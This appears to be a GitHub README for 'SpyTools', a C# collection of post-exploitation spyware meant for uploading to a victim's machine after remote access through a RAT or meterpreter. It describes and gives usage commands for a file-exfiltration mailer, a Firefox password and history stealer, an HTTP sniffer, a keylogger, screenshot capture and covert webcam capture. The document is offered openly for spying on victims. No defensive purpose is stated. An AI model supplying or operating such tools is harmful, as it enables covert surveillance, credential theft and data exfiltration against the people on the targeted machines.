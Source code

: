 # SpyTools v1.0
SpyTools is a collection of little tools wirtten in C# .Net 2.0, usefull to spy a vectim. If you got remote access, with a RAT or meterpreter, you can upload this tools to the victim machine, and run them, or persist them using Porwersploit. It is distributed under the GNU GPLv3 license.
## List of tools
### EmailSender
Get all files with some extensions in the current path, and send an email attaching them.
```
EmailSender.exe "server.com" "user@server.com" "password" "from@domain.com" "FromName" "to@domain.com" "Subject" "Body" "jpg,txt,png"
```
### FoxyStealer
Copy to the current path, all firefox database and conifg files, for each profile. You can get the history or the passwords saved form them.
```
FoxyStealer.exe
```
### HTTPSniffer
Start to capture all HTTP traffic, and flush them into a txt file.
```
HTTPSniffer.exe ["OutputFileName"] [NumericIntervalToFlushTrafficToDisk]
```
### Keylogger
Start to capture all keys, and flush them into a file.
```
Keylogger.exe ["OutputFileName"] [NumericIntervalToFlushKeysToDisk]
```
### Printscreen
Take a screenshot.
```
Printscreen.exe ["OutputFileName"]
```
### WebcamSnap
Take a picture from the webcam.
```
WebcamSnap.exe ["OutputFileName"]
```
